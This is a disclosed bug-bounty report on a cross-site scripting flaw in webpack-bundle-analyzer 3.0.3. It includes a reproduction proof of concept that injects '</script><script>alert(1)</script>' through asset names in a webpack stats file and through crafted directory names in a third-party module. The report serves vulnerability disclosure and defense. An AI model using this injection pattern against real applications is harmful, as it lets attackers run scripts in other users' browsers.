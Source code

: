 # [webpack-bundle-analyzer] Cross-site Scripting

## Report Details
- **Report ID**: 463380
- **URL**: https://hackerone.com/reports/463380
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-12-16T07:46:18.788Z
- **Disclosed**: 2019-12-30T22:12:35.424Z

## Reporter
- **Username**: ermilov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Cross-site Scripting in `webpack-bundle-analyzer`.
It allows injecting and executing arbitray JavaScript code.

# Module

**module name:** webpack-bundle-analyzer
**version:** 3.0.3
**npm page:** `https://www.npmjs.com/package/webpack-bundle-analyzer`

## Module Description

Visualize size of webpack output files with an interactive zoomable treemap.

## Module Stats

163083 downloads in the last day
952718 downloads in the last week
4033912 downloads in the last month

# Vulnerability

## Vulnerability Description

`webpack-bundle-analyzer` does not sanitize names of files and directories which may be used to inject malicious Javascript. 

## Steps To Reproduce:

***Simple POC:***

* Install `webpack-bundle-analyzer`
```
npm i webpack-bundle-analyzer
```

* create an example of webpack-stats json file

poc.json
```json
{
  "outputPath": "./dist",
  "assets": [
    {
      "name": "</script><script>alert(1)</script>main.js",
      "chunks": [0],
      "chunkNames": ["main"]
    }
  ]
}
```

* run analyzer

```
node ./node_modules/webpack-bundle-analyzer/lib/bin/analyzer.js poc.json
```

default output should be:

```
Webpack Bundle Analyzer is started at http://127.0.0.1:8888
Use Ctrl+C to close it
```

* open the analyzer's url
```
http://localhost:8888
```

* payload executes immidiately

***More In-depth example:***

Main task of the application is to visualize structure of output files compiled by webpack by parsing JSON file containing statistics about modules (https://webpack.js.org/api/stats/) generated by webpack.
Projects usually include third-party modules, so by having access to thir-party module content (file names and directory structure) it is possible to manipulate the compilation statistics in `compilation-stats.json` file and as long as certain data from this file is passed to the page without sanitization
https://github.com/webpack-contrib/webpack-bundle-analyzer/blob/master/views/viewer.ejs#L14
it is possible to inject payload

For example

this file structure:
```
node_modules/some-module-that-we-control/
├── <
│   └── script><script>alert(1)<
│       └── script>module-name-that-is-included-in-index.js
├── index.js
└── package.json
```

will result in something like this:
```javascript
<script>
    window.chartData = [
{"some-data-here":
"and here</script><script>alert(1)</script>module-name-that-is-included-in-index.js",
"more-data":[]}
];
    window.defaultSizes = "parsed";
    window.enableWebSocket = true;
</script>
```

I created project on Github for easier explanation:

* Download repo
```
git clone https://github.com/inkz/poc-webpack-bundle-analyzer.git
```
```
cd poc-webpack-bundle-analyzer/
```

* Install dependencies
```
npm install
```

* Run webpack
```
npm run build
```

Output should be:
```
Webpack Bundle Analyzer is started at http://127.0.0.1:8888
Use Ctrl+C to close it
```

* open the url
```
http://localhost:8888
```

* payload executes

Refer to directory structure here https://github.com/inkz/poc-webpack-bundle-analyzer/tree/master/external/node_modules/poc-module
and web page source code for better understanding

## Patch

## Supporting Material/References:

- OS: Linux Mint current
- Node.js: 8.11.1
- NPM: 6.4.0

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

An attacker that is able to control third party module can execute malicious JavaScript.

## Attachments
No attachments
